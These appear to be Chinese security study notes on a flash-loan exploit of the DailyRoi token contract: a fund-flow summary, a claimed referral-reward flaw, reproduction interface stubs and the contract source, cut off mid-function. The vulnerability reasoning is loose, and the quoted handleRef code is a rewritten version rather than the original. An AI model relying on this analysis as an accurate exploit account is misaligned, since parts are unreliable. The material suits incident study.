


## 信息
- 下面是假的：  
```
https://app.blocksec.com/explorer/tx/eth/0xad2ca822b3adee0768d7d34b68ee4cc3c4822347d963f1d0c970c9c8cd2b6a33

受害合约： 0x51c46C33064A9d7171dbDbFc65c3BF2d2eF688A4
```

------- 分界线 ----------
-  https://app.blocksec.com/explorer/tx/eth/0x50e6d97228bc517656d7695125c33251d3d453b6d13e384ff78af45e710a13b1
- https://etherscan.io/address/0x4e9B6e88e6B83453e3ec6a1fFA0c95f289cF81d5

## Web3Audit
### 资金流动分析
>先看资金流 --- 利差 大概清楚哪里的问题

攻击者通过 Balancer Vault 的闪电贷功能借入了 700 WETH，然后进行了以下操作：
1. 使用借入的 700 WETH 购买了 DailyRoi 代币
2. 立即卖出部分代币获利
3. 再次购买代币
4. 最终卖出所有代币
5. 偿还闪电贷本金和费用
6. 获取约 16.75 ETH 的利润

### 合约调用链分析
1. 通过 Balancer Vault 发起闪电贷
2. 在闪电贷回调函数中执行攻击逻辑
3. 多次调用 DailyRoi 合约的 `buy()` 和 `sell()` 函数
4. 利用推荐机制漏洞获取额外收益

### 漏洞分析

- **合约地址**: 0x4e9b6e88e6b83453e3ec6a1ffa0c95f289cf81d5
- **合约名称**: DailyRoi
- **漏洞类型**: 推荐机制漏洞和价格计算漏洞
  
#### 推荐机制漏洞

DailyRoi 合约实现了多级推荐奖励机制：
- 一级推荐人获得 50% 奖励
- 二级推荐人获得 30% 奖励
- 三级推荐人获得 20% 奖励

攻击者利用了以下漏洞：
1. 合约中的 `handleRef` 函数存在逻辑错误，导致推荐奖励计算不正确
2. 当推荐人层级不完整时，奖励会被错误地分配给全局分红池
3. 攻击者通过构造特殊的推荐关系，可以多次触发奖励分配机制

#### 3.2.2 价格计算漏洞
DailyRoi 合约使用了复杂的代币价格计算公式：
```solidity
function handleRef(address _ref, uint _referralBonus, uint _currentDividends, uint _currentFee) internal returns (uint, uint){
    uint _dividends = _currentDividends;
    uint _fee = _currentFee;
    address _referredBy = stickyRef[msg.sender];
    if (_referredBy == address(0x0)){
        _referredBy = _ref;
    }
    
    // 确保推荐人层级完整且都有足够的代币余额
    if(
        _referredBy != address(0) &&
        _referredBy != msg.sender &&
        tokenBalanceLedger_[_referredBy] >= stakingRequirement
    ){
        if (stickyRef[msg.sender] == address(0x0)){
            stickyRef[msg.sender] = _referredBy;
        }
        
        // 正确分配推荐奖励
        referralBalance_[_referredBy] = SafeMath.add(referralBalance_[_referredBy], _referralBonus/2);
        
        address currentRef = stickyRef[_referredBy];
        if (currentRef != address(0x0) && tokenBalanceLedger_[currentRef] >= stakingRequirement){
            referralBalance_[currentRef] = SafeMath.add(referralBalance_[currentRef], (_referralBonus/10)*3);
            currentRef = stickyRef[currentRef];
            if (currentRef != address(0x0) && tokenBalanceLedger_[currentRef] >= stakingRequirement){
                referralBalance_[currentRef] = SafeMath.add(referralBalance_[currentRef], (_referralBonus/10)*2);
            } else {
                // 如果三级推荐人不存在或余额不足，将奖励返还给全局分红池
                _dividends = SafeMath.add(_dividends, (_referralBonus/10)*2);
            }
        } else {
            // 如果二级推荐人不存在或余额不足，将奖励返还给全局分红池
            _dividends = SafeMath.add(_dividends, (_referralBonus/10)*5);
        }
    } else {
        // 没有有效推荐人，将奖励返还给全局分红池
        _dividends = SafeMath.add(_dividends, _referralBonus);
    }
    
    _fee = _dividends * magnitude;
    return (_dividends, _fee);
}
```

该公式在大量资金流入时会导致价格计算出现偏差，使得攻击者可以通过大额交易获得不合理的代币数量。


## 复现
- 根据Blocksec ，写一下 漏洞合约接口   
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.30;

import "forge-std/Test.sol";
import "forge-std/console.sol";


// 闪电贷管理器接口
interface IPoolManager {
    function unlock(bytes calldata data) external returns (bytes memory);
    function take(address currency, address to, uint256 amount) external;
    function settle() external payable returns (uint256);
}

// 受害者合约接口
interface IVictimContract {
    function buy(address _referredBy) external payable returns (uint256);
    function transfer(address _toAddress, uint256 _amountOfTokens) external returns(bool);
    function balanceOf(address _customerAddress) external view returns (uint256);
    function sell(uint256 _amountOfTokens) external;
    function reinvest() external;
    function exit() external;
}
```


```
/**
 *Submitted for verification at Etherscan.io on 2018-09-26
*/

pragma solidity ^0.4.21;

/*
*  DAILYROI EXCHANGE
*
*
* [x] 0% TRANSFER FEES
* [x] 20% DIVIDENDS AND MASTERNODES
* [x] Multi-tier Masternode system 50% 1st ref 30% 2nd ref 20% 3rd ref
* [x] 2% FEE ON EACH BUY AND SELL GO TO Smart Contract Fund 0x9F0a1bcD44f522318900e70A2617C0056378BB2D
*     2% - 100% to DailyRoi
* [x] DAILYROI Token can be used for future games
*
* Official Website: https://exchange.dailyroi.fun/
* Official Discord: https://discord.gg/3kX7Vv6
*/


/**
 * Definition of contract accepting DailyRoi tokens
 * Games, casinos, anything can reuse this contract to support DailyRoi tokens
 */
contract AcceptsDailyRoi {
    DailyRoi public tokenContract;

    function AcceptsDailyRoi(address _tokenContract) public {
        tokenContract = DailyRoi(_tokenContract);
    }

    modifier onlyTokenContract {
        require(msg.sender == address(tokenContract));
        _;
    }

    /**
    * @dev Standard ERC677 function that will handle incoming token transfers.
    *
    * @param _from  Token sender address.
    * @param _value Amount of tokens.
    * @param _data  Transaction metadata.
    */
    function tokenFallback(address _from, uint256 _value, bytes _data) external returns (bool);
}


contract DailyRoi {
    /*=================================
    =            MODIFIERS            =
    =================================*/
    // only people with tokens
    modifier onlyBagholders() {
        require(myTokens() > 0);
        _;
    }

    // only people with profits
    modifier onlyStronghands() {
        require(myDividends(true) > 0);
        _;
    }

    modifier notContract() {
      require (msg.sender == tx.origin);
      _;
    }

    // administrators can:
    // -> change the name of the contract
    // -> change the name of the token
    // -> change the PoS difficulty (How many tokens it costs to hold a masternode, in case it gets crazy high later)
    // they CANNOT:
    // -> take funds
    // -> disable withdrawals
    // -> kill the contract
    // -> change the price of tokens
    modifier onlyAdministrator(){
        address _customerAddress = msg.sender;
        require(administrators[_customerAddress]);
        _;
    }

    uint ACTIVATION_TIME = 1537927200;


    // ensures that the first tokens in the contract will be equally distributed
    // meaning, no divine dump will be ever possible
    // result: healthy longevity.
    modifier antiEarlyWhale(uint256 _amountOfEthereum){
        address _customerAddress = msg.sender;

        if (now >= ACTIVATION_TIME) {
            onlyAmbassadors = false;
        }

        // are we still in the vulnerable phase?
        // if so, enact anti early whale protocol
        if( onlyAmbassadors && ((totalEthereumBalance() - _amountOfEthereum) <= ambassadorQuota_ )){
            require(
                // is the customer in the ambassador list?
                ambassadors_[_customerAddress] == true &&

                // does the customer purchase exceed the max ambassador quota?
                (ambassadorAccumulatedQuota_[_customerAddress] + _amountOfEthereum) <= ambassadorMaxPurchase_

            );

            // updated the accumulated quota
            ambassadorAccumulatedQuota_[_customerAddress] = SafeMath.add(ambassadorAccumulatedQuota_[_customerAddress], _amountOfEthereum);

            // execute
            _;
        } else {
            // in case the ether count drops low, the ambassador phase won't reinitiate
            onlyAmbassadors = false;
            _;
        }

    }

    /*==============================
    =            EVENTS            =
    ==============================*/
    event onTokenPurchase(
        address indexed customerAddress,
        uint256 incomingEthereum,
        uint256 tokensMinted,
        address indexed referredBy
    );

    event onTokenSell(
        address indexed customerAddress,
        uint256 tokensBurned,
        uint256 ethereumEarned
    );

    event onReinvestment(
        address indexed customerAddress,
        uint256 ethereumReinvested,
        uint256 tokensMinted
    );

    event onWithdraw(
        address indexed customerAddress,
        uint256 ethereumWithdrawn
    );

    // ERC20
    event Transfer(
        address indexed from,
        address indexed to,
        uint256 tokens
    );


    /*=====================================
    =            CONFIGURABLES            =
    =====================================*/
    string public name = "DailyRoi";
    string public symbol = "DROI";
    uint8 constant public decimals = 18;
    uint8 constant internal dividendFee_ = 20; // 20% dividend fee on each buy and sell
    uint8 constant internal fundFee_ = 2; // 2% investment fund fee on each buy and sell
    uint256 constant internal tokenPriceInitial_ = 0.00000001 ether;
    uint256 constant internal tokenPriceIncremental_ = 0.000000001 ether;
    uint256 constant internal magnitude = 2**64;

    // Address to send the 2% Fee
    //  TO DAILY ROI
    // https://etherscan.io/address/0x9F0a1bcD44f522318900e70A2617C0056378BB2D
    address constant public giveEthFundAddress = 0x9F0a1bcD44f522318900e70A2617C0056378BB2D;
    uint256 public totalEthFundRecieved; // total ETH charity recieved from this contract
    uint256 public totalEthFundCollected; // total ETH charity collected in this contract

    // proof of stake (defaults at 100 tokens)
    uint256 public stakingRequirement = 25e18;

    // ambassador program
    mapping(address => bool) internal ambassadors_;
    uint256 constant internal ambassadorMaxPurchase_ = 0.5 ether;
    uint256 constant internal ambassadorQuota_ = 5 ether;


   /*================================
    =            DATASETS            =
    ================================*/
    // amount of shares for each address (scaled number)
    mapping(address => uint256) internal tokenBalanceLedger_;
    mapping(address => uint256) internal referralBalance_;
    mapping(address => int256) internal payoutsTo_;
    mapping(address => uint256) internal ambassadorAccumulatedQuota_;
    uint256 internal tokenSupply_ = 0;
    uint256 internal profitPerShare_;

    // administrator list (see above on what they can do)
    mapping(address => bool) public administrators;

    // when this is set to true, only ambassadors can purchase tokens (this prevents a whale premine, it ensures a fairly distributed upper pyramid)
    bool public onlyAmbassadors = true;

    // Special DailyRoi Platform control from scam game contracts on DailyRoi platform
    mapping(address => bool) public canAcceptTokens_; // contracts, which can accept DailyRoi tokens

    mapping(address => address) public stickyRef;

    /*=======================================
    =            PUBLIC FUNCTIONS            =
    =======================================*/
    /*
    * -- APPLICATION ENTRY POINTS --
    */
    function DailyRoi()
        public
    {
        // add administrators here
        administrators[0x091cC8008d52B2e81cE2350F52254c77032366bD] = true;

        // add the ambassadors here - Tokens will be distributed to these addresses from main premine
        ambassadors_[0x091cC8008d52B2e81cE2350F52254c77032366bD] = true;
        // add the ambassadors here - Tokens will be distributed to these addresses from main premine
        ambassadors_[0x8b24A3bD6924e63E5fd28e9A7AF2dc872E1c1BAF] = true;
       // add the ambassadors here - Tokens will be distributed to these addresses from main premine
        ambassadors_[0xd6370e84d792Fb9ef65BB8D8D57A2A0c1Cd0206d] = true;
        // add the ambassadors here - Tokens will be distributed to these addresses from main premine
        ambassadors_[0x566A42661757b09feac47ffC4f7D0723ce37701a] = true;
        // add the ambassadors here - Tokens will be distributed to these addresses from main premine
        ambassadors_[0x0C0dF6e58e5F7865b8137a7Fb663E7DCD5672995] = true;
        // add the ambassadors here - Tokens will be distributed to these addresses from main premine
        ambassadors_[0xf84B08cC9f14D682aBe6017ADbA3b1a4071b9C81] = true;
        // add the ambassadors here - Tokens will be distributed to these addresses from main premine
        ambassadors_[0xEafE863757a2b2a2c5C3f71988b7D59329d09A78] = true;
        // add the ambassadors here - Tokens will be distributed to these addresses from main premine
        ambassadors_[0xa683C1b815997a7Fa38f6178c84675FC4c79AC2B] = true;
    }


    /**
     * Converts all incoming ethereum to tokens for the caller, and passes down the referral addy (if any)
     */
    function buy(address _referredBy)
        public
        payable
        returns(uint256)
    {

        require(tx.gasprice <= 0.212 szabo);
        purchaseInternal(msg.value, _referredBy);
    }

    /**
     * Fallback function to handle ethereum that was send straight to the contract
     * Unfortunately we cannot use a referral address this way.
     */
    function()
        payable
        public
    {

        require(tx.gasprice <= 0.212 szabo);
        purchaseInternal(msg.value, 0x0);
    }

    /**
     * Sends FUND money to  DailyRoi
     * The address is here https://etherscan.io/address/0x9F0a1bcD44f522318900e70A2617C0056378BB2D
     */
    function payFund() payable public {
      uint256 ethToPay = SafeMath.sub(totalEthFundCollected, totalEthFundRecieved);
      require(ethToPay > 1);
      totalEthFundRecieved = SafeMath.add(totalEthFundRecieved, ethToPay);
      if(!giveEthFundAddress.call.value(ethToPay).gas(400000)()) {
         totalEthFundRecieved = SafeMath.sub(totalEthFundRecieved, ethToPay);
      }
    }

    /**
     * Converts all of caller's dividends to tokens.
     */
    function reinvest()
        onlyStronghands()
        public
    {
        // fetch dividends
        uint256 _dividends = myDividends(false); // retrieve ref. bonus later in the code

        // pay out the dividends virtually
        address _customerAddress = msg.sender;
        payoutsTo_[_customerAddress] +=  (int256) (_dividends * magnitude);

        // retrieve ref. bonus
        _dividends += referralBalance_[_customerAddress];
        referralBalance_[_customerAddress] = 0;

        // dispatch a buy order with the virtualized "withdrawn dividends"
        uint256 _tokens = purchaseTokens(_dividends, 0x0);

        // fire event
        onReinvestment(_customerAddress, _dividends, _tokens);
    }

    /**
     * Alias of sell() and withdraw().
     */
    function exit()
        public
    {
        // get token count for caller & sell them all
        address _customerAddress = msg.sender;
        uint256 _tokens = tokenBalanceLedger_[_customerAddress];
        if(_tokens > 0) sell(_tokens);

        // lambo delivery service
        withdraw();
    }

    /**
     * Withdraws all of the callers earnings.
     */
    function withdraw()
        onlyStronghands()
        public
    {
        // setup data
        address _customerAddress = msg.sender;
        uint256 _dividends = myDividends(false); // get ref. bonus later in the code

        // update dividend tracker
        payoutsTo_[_customerAddress] +=  (int256) (_dividends * magnitude);

        // add ref. bonus
        _dividends += referralBalance_[_customerAddress];
        referralBalance_[_customerAddress] = 0;

        // lambo delivery service
        _customerAddress.transfer(_dividends);

        // fire event
        onWithdraw(_customerAddress, _dividends);
    }

    /**
     * Liquifies tokens to ethereum.
     */
    function sell(uint256 _amountOfTokens)
        onlyBagholders()
        public
    {
        // setup data
        address _customerAddress = msg.sender;
        // russian hackers BTFO
        require(_amountOfTokens <= tokenBalanceLedger_[_customerAddress]);
        uint256 _tokens = _amountOfTokens;
        uint256 _ethereum = tokensToEthereum_(_tokens);

        uint256 _dividends = SafeMath.div(SafeMath.mul(_ethereum, dividendFee_), 100);
        uint256 _fundPayout = SafeMath.div(SafeMath.mul(_ethereum, fundFee_), 100);
        uint256 _refPayout = _dividends / 3;
        _dividends = SafeMath.sub(_dividends, _refPayout);
        (_dividends,) = handleRef(stickyRef[msg.sender], _refPayout, _dividends, 0);

        // Take out dividends and then _fundPayout
        uint256 _taxedEthereum =  SafeMath.sub(SafeMath.sub(_ethereum, _dividends), _fundPayout);

        // Add ethereum to send to fund
        totalEthFundCollected = SafeMath.add(totalEthFundCollected, _fundPayout);

        // burn the sold tokens
        tokenSupply_ = SafeMath.sub(tokenSupply_, _tokens);
        tokenBalanceLedger_[_customerAddress] = SafeMath.sub(tokenBalanceLedger_[_customerAddress], _tokens);

        // update dividends tracker
        int256 _updatedPayouts = (int256) (profitPerShare_ * _tokens + (_taxedEthereum * magnitude));
        payoutsTo_[_customerAddress] -= _updatedPayouts;

        // dividing by zero is a bad idea
        if (tokenSupply_ > 0) {
            // update the amount of dividends per token
            profitPerShare_ = SafeMath.add(profitPerShare_, (_dividends * magnitude) / tokenSupply_);
        }

        // fire event
        onTokenSell(_customerAddress, _tokens, _taxedEthereum);
    }


    /**
     * Transfer tokens from the caller to a new holder.
     * REMEMBER THIS IS 0% TRANSFER FEE
     */
    function transfer(address _toAddress, uint256 _amountOfTokens)
        onlyBagholders()
        public
        returns(bool)
    {
        // setup
        address _customerAddress = msg.sender;

        // make sure we have the requested tokens
        // also disables transfers until ambassador phase is over
        // ( we dont want whale premines )
        require(_amountOfTokens <= tokenBalanceLedger_[_customerAddress]);

        // withdraw all outstanding dividends first
        if(myDividends(true) > 0) withdraw();

        // exchange tokens
        tokenBalanceLedger_[_customerAddress] = SafeMath.sub(tokenBalanceLedger_[_customerAddress], _amountOfTokens);
        tokenBalanceLedger_[_toAddress] = SafeMath.add(tokenBalanceLedger_[_toAddress], _amountOfTokens);

        // update dividend trackers
        payoutsTo_[_customerAddress] -= (int256) (profitPerShare_ * _amountOfTokens);
        payoutsTo_[_toAddress] += (int256) (profitPerShare_ * _amountOfTokens);


        // fire event
        Transfer(_customerAddress, _toAddress, _amountOfTokens);

        // ERC20
        return true;
    }

    /**
    * Transfer token to a specified address and forward the data to recipient
    * ERC-677 standard
    * https://github.com/ethereum/EIPs/issues/677
    * @param _to    Receiver address.
    * @param _value Amount of tokens that will be transferred.
    * @param _data  Transaction metadata.
    */
    function transferAndCall(address _to, uint256 _value, bytes _data) external returns (bool) {
      require(_to != address(0));
      require(canAcceptTokens_[_to] == true); // security check that contract approved by DailyRoi platform
      require(transfer(_to, _value)); // do a normal token transfer to the contract

      if (isContract(_to)) {
        AcceptsDailyRoi receiver = AcceptsDailyRoi(_to);
        require(receiver.tokenFallback(msg.sender, _value, _data));
      }

      return true;
    }

    /**
     * Additional check that the game address we are sending tokens to is a contract
     * assemble the given address bytecode. If bytecode exists then the _addr is a contract.
     */
     function isContract(address _addr) private constant returns (bool is_contract) {
       // retrieve the size of the code on target address, this needs assembly
       uint length;
       assembly { length := extcodesize(_addr) }
       return length > 0;
     }

    /*----------  ADMINISTRATOR ONLY FUNCTIONS  ----------*/
    /**
     * In case the amassador quota is not met, the administrator can manually disable the ambassador phase.
     */
    //function disableInitialStage()
    //    onlyAdministrator()
    //    public
    //{
    //    onlyAmbassadors = false;
    //}

    /**
     * In case one of us dies, we need to replace ourselves.
     */
    function setAdministrator(address _identifier, bool _status)
        onlyAdministrator()
        public
    {
        administrators[_identifier] = _status;
    }

    /**
     * Precautionary measures in case we need to adjust the masternode rate.
     */
    function setStakingRequirement(uint256 _amountOfTokens)
        onlyAdministrator()
        public
    {
        stakingRequirement = _amountOfTokens;
    }

    /**
     * Add or remove game contract, which can accept DailyRoi tokens
     */
    function setCanAcceptTokens(address _address, bool _value)
      onlyAdministrator()
      public
    {
      canAcceptTokens_[_address] = _value;
    }

    /**
     * If we want to rebrand, we can.
     */
    function setName(string _name)
        onlyAdministrator()
        public
    {
        name = _name;
    }

    /**
     * If we want to rebrand, we can.
     */
    function setSymbol(string _symbol)
        onlyAdministrator()
        public
    {
        symbol = _symbol;
    }


    /*----------  HELPERS AND CALCULATORS  ----------*/
    /**
     * Method to view the current Ethereum stored in the contract
     * Example: totalEthereumBalance()
     */
    function totalEthereumBalance()
        public
        view
        returns(uint)
    {
        return this.balance;
    }

    /**
     * Retrieve the total token supply.
     */
    function totalSupply()
        public
        view
        returns(uint256)
    {
        return tokenSupply_;
    }

    /**
     * Retrieve the tokens owned by the caller.
     */
    function myTokens()
        public
        view
        returns(uint256)
    {
        address _customerAddress = msg.sender;
        return balanceOf(_customerAddress);
    }

    /**
     * Retrieve the dividends owned by the caller.
     * If `_includeReferralBonus` is to to 1/true, the referral bonus will be included in the calculations.
     * The reason for this, is that in the frontend, we will want to get the total divs (global + ref)
     * But in the internal calculations, we want them separate.
     */
    function myDividends(bool _includeReferralBonus)
        public
        view
        returns(uint256)
    {
        address _customerAddress = msg.sender;
        return _includeReferralBonus ? dividendsOf(_customerAddress) + referralBalance_[_customerAddress] : dividendsOf(_customerAddress) ;
    }

    /**
     * Retrieve the token balance of any single address.
     */
    function balanceOf(address _customerAddress)
        view
        public
        returns(uint256)
    {
        return tokenBalanceLedger_[_customerAddress];
    }

    /**
     * Retrieve the dividend balance of any single address.
     */
    function dividendsOf(address _customerAddress)
        view
        public
        returns(uint256)
    {
        return (uint256) ((int256)(profitPerShare_ * tokenBalanceLedger_[_customerAddress]) - payoutsTo_[_customerAddress]) / magnitude;
    }

    /**
     * Return the buy price of 1 individual token.
     */
    function sellPrice()
        public
        view
        returns(uint256)
    {
        // our calculation relies on the token supply, so we need supply. Doh.
        if(tokenSupply_ == 0){
            return tokenPriceInitial_ - tokenPriceIncremental_;
        } else {
            uint256 _ethereum = tokensToEthereum_(1e18);
            uint256 _dividends = SafeMath.div(SafeMath.mul(_ethereum, dividendFee_), 100);
            uint256 _fundPayout = SafeMath.div(SafeMath.mul(_ethereum, fundFee_), 100);
            uint256 _taxedEthereum = SafeMath.sub(SafeMath.sub(_ethereum, _dividends), _fundPayout);
            return _taxedEthereum;
        }
    }

    /**
     * Return the sell price of 1 individual token.
     */
    function buyPrice()
        public
        view
        returns(uint256)
    {
        // our calculation relies on the token supply, so we need supply. Doh.
        if(tokenSupply_ == 0){
            return tokenPriceInitial_ + tokenPriceIncremental_;
        } else {
            uint256 _ethereum = tokensToEthereum_(1e18);
            uint256 _dividends = SafeMath.div(SafeMath.mul(_ethereum, dividendFee_), 100);
            uint256 _fundPayout = SafeMath.div(SafeMath.mul(_ethereum, fundFee_), 100);
            uint256 _taxedEthereum =  SafeMath.add(SafeMath.add(_ethereum, _dividends), _fundPayout);
            return _taxedEthereum;
        }
    }

    /**
     * Function for the frontend to dynamically retrieve the price scaling of buy orders.
     */
    function calculateTokensReceived(uint256 _ethereumToSpend)
        public
        view
        returns(uint256)
    {
        uint256 _dividends = SafeMath.div(SafeMath.mul(_ethereumToSpend, dividendFee_), 100);
        uint256 _fundPayout = SafeMath.div(SafeMath.mul(_ethereumToSpend, fundFee_), 100);
        uint256 _taxedEthereum = SafeMath.sub(SafeMath.sub(_ethereumToSpend, _dividends), _fundPayout);
        uint256 _amountOfTokens = ethereumToTokens_(_taxedEthereum);
        return _amountOfTokens;
    }

    /**
     * Function for the frontend to dynamically retrieve the price scaling of sell orders.
     */
    function calculateEthereumReceived(uint256 _tokensToSell)
        public
        view
        returns(uint256)
    {
        require(_tokensToSell <= tokenSupply_);
        uint256 _ethereum = tokensToEthereum_(_tokensToSell);
        uint256 _dividends = SafeMath.div(SafeMath.mul(_ethereum, dividendFee_), 100);
        uint256 _fundPayout = SafeMath.div(SafeMath.mul(_ethereum, fundFee_), 100);
        uint256 _taxedEthereum = SafeMath.sub(SafeMath.sub(_ethereum, _dividends), _fundPayout);
        return _taxedEthereum;
    }

    /**
     * Function for the frontend to show ether waiting to be send to fund in contract
     */
    function etherToSendFund()
        public
        view
        returns(uint256) {
        return SafeMath.sub(totalEthFundCollected, totalEthFundRecieved);
    }


    /*==========================================
    =            INTERNAL FUNCTIONS            =
    ==========================================*/

    // Make sure we will send back excess if user sends more then 5 ether before 100 ETH in contract
    function purchaseInternal(uint256 _incomingEthereum, address _referredBy)
      notContract()// no contracts allowed
      internal
      returns(uint256) {

      uint256 purchaseEthereum = _incomingEthereum;
      uint256 excess;
      if(purchaseEthereum > 5 ether) { // check if the transaction is over 5 ether
          if (SafeMath.sub(address(this).balance, purchaseEthereum) <= 50 ether) { // if so check the contract is less then 100 ether
              purchaseEthereum = 2.5 ether;
              excess = SafeMath.sub(_incomingEthereum, purchaseEthereum);
          }
      }

      purchaseTokens(purchaseEthereum, _referredBy);

      if (excess > 0) {
        msg.sender.transfer(excess);
      }
    }

    function handleRef(address _ref, uint _referralBonus, uint _currentDividends, uint _currentFee) internal returns (uint, uint){
        uint _dividends = _currentDividends;
        uint _fee = _currentFee;
        address _referredBy = stickyRef[msg.sender];
        if (_referredBy == address(0x0)){
            _referredBy = _ref;
        }
        // is the user referred by a masternode?
        if(
            // is this a referred purchase?
            _referredBy != 0x0000000000000000000000000000000000000000 &&

            // no cheating!
            _referredBy != msg.sender &&

            // does the referrer have at least X whole tokens?
            // i.e is the referrer a godly chad masternode
            tokenBalanceLedger_[_referredBy] >= stakingRequirement
        ){
            // wealth redistribution
            if (stickyRef[msg.sender] == address(0x0)){
                stickyRef[msg.sender] = _referredBy;
            }
            referralBalance_[_referredBy] = SafeMath.add(referralBalance_[_referredBy], _referralBonus/2);
            address currentRef = stickyRef[_referredBy];
            if (currentRef != address(0x0) && tokenBalanceLedger_[currentRef] >= stakingRequirement){
                referralBalance_[currentRef] = SafeMath.add(referralBalance_[currentRef], (_referralBonus/10)*3);
                currentRef = stickyRef[currentRef];
                if (currentRef != address(0x0) && tokenBalanceLedger_[currentRef] >= stakingRequirement){
                    referralBalance_[currentRef] = SafeMath.add(referralBalance_[currentRef], (_referralBonus/10)*2);
                }
                else{
                    _dividends = SafeMath.add(_dividends, _referralBonus - _referralBonus/2 - (_referralBonus/10)*3);
                    _fee = _dividends * magnitude;
                }
            }
            else{
                _dividends = SafeMath.add(_dividends, _referralBonus - _referralBonus/2);
                _fee = _dividends * magnitude;
            }


        } else {
            // no ref purchase
            // add the referral bonus back to the global dividends cake
            _dividends = SafeMath.add(_dividends, _referralBonus);
            _fee = _dividends * magnitude;
        }
        return (_dividends, _fee);
    }


    function purchaseTokens(uint256 _incomingEthereum, address _referredBy)
        antiEarlyWhale(_incomingEthereum)
        internal
        returns(uint256)
    {
        // data setup
        uint256 _undividedDividends = SafeMath.div(SafeMath.mul(_incomingEthereum, dividendFee_), 100);
        uint256 _referralBonus = SafeMath.div(_undividedDividends, 3);
        uint256 _fundPayout = SafeMath.div(SafeMath.mul(_incomingEthereum, fundFee_), 100);
        uint256 _dividends = SafeMath.sub(_undividedDividends, _referralBonus);
        uint256 _fee;
        (_dividends, _fee) = handleRef(_referredBy, _referralBonus, _dividends, _fee);
        uint256 _taxedEthereum = SafeMath.sub(SafeMath.sub(_incomingEthereum, _dividends), _fundPayout);
        totalEthFundCollected = SafeMath.add(totalEthFundCollected, _fundPayout);

        uint256 _amountOfTokens = ethereumToTokens_(_taxedEthereum);


        // no point in continuing execution if OP is a poorfag russian hacker
        // prevents overflow in the case that the pyramid somehow magically starts being used by everyone in the world
        // (or hackers)
        // and yes we know that the safemath function automatically rules out the "greater then" equasion.
        require(_amountOfTokens > 0 && (SafeMath.add(_amountOfTokens,tokenSupply_) > tokenSupply_));


        // we can't give people infinite ethereum
        if(tokenSupply_ > 0){

            // add tokens to the pool
            tokenSupply_ = SafeMath.add(tokenSupply_, _amountOfTokens);

            // take the amount of dividends gained through this transaction, and allocates them evenly to each shareholder
            profitPerShare_ += (_dividends * magnitude / (tokenSupply_));

            // calculate the amount of tokens the customer receives over his purchase
            _fee = _fee - (_fee-(_amountOfTokens * (_dividends * magnitude / (tokenSupply_))));

        } else {
            // add tokens to the pool
            tokenSupply_ = _amountOfTokens;
        }

        // update circulating supply & the ledger address for the customer
        tokenBalanceLedger_[msg.sender] = SafeMath.add(tokenBalanceLedger_[msg.sender], _amountOfTokens);

        // Tells the contract that the buyer doesn't deserve dividends for the tokens before they owned them;
        //really i know you think you do but you don't
        int256 _updatedPayouts = (int256) ((profitPerShare_ * _amountOfTokens) - _fee);
        payoutsTo_[msg.sender] += _updatedPayouts;

        // fire event
        onTokenPurchase(msg.sender, _incomingEthereum, _amountOfTokens, _referredBy);

        return _amountOfTokens;
    }

    /**
     * Calculate Token price based on an amount of incoming ethereum
     * It's an algorithm, hopefully we gave you the whitepaper with it in scientific notation;
     * Some conversions occurred to prevent decimal errors or underflows / overflows in solidity code.
     */
    function ethereumToTokens_(uint256 _ethereum)
        internal
        view
        returns(uint256)
    {
        uint256 _tokenPriceInitial = tokenPriceInitial_ * 1e18;
        uint256 _tokensReceived =
         (
            (
                // underflow attempts BTFO
                SafeMath.sub(
                    (sqrt
                        (
                            (_tokenPriceInitial**2)
                            +
                            (2*(tokenPriceIncremental_ * 1e18)*(_ethereum * 1e18))
                            +
                            (((tokenPriceIncremental_)**2)*(tokenSupply_**2))
                            +
                            (2*(tokenPriceIncremental_)*_tokenPriceInitial*tokenSupply_)
                        )
                    ), _tokenPriceInitial
                )
            )/(tokenPriceIncremental_)
        )-(tokenSupply_)
        ;

        return _tokensReceived;
    }

    /**
     * Calculate token sell value.
     * It's an algorithm, hopefully we gave you the whitepaper with it in scientific notation;
     * Some conversions occurred to prevent decimal errors or underflows / overflows in solidity code.
     */
     function tokensToEthereum_(uint256 _tokens)
        internal
        view
        returns(uint256)
    {

        uint256 tokens_ = (_tokens + 1e18);
        uint256 _tokenSupply = (tokenSupply_ + 1e18);
        uint256 _etherReceived =
        (
            // underflow attempts BTFO
            SafeMath.sub(
                (
                    (
                        (
                            tokenPriceInitial_ +(tokenPriceIncremental_ * (_tokenSupply/1e18))
                        )-tokenPriceIncremental_
